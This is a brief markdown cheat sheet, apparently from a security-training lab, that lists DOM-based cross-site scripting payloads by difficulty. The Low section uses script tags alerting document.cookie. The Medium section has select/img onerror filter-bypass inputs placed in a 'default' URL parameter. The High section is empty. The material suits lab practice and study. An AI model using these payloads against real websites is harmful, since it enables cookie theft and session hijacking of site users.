 # XSS-DOM 
Difficulty: Low

<script>alert(document.cookie)</script>          </br>
<script>alert(1)</script>

Difficulty: Medium

/?default=<select><img title=<img src onerror=alert(document.cookie)></select>        </br>
/?default=<select><img src/onerror=alert(document.cookie)></select>                    </br>
Res: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

Difficulty: High


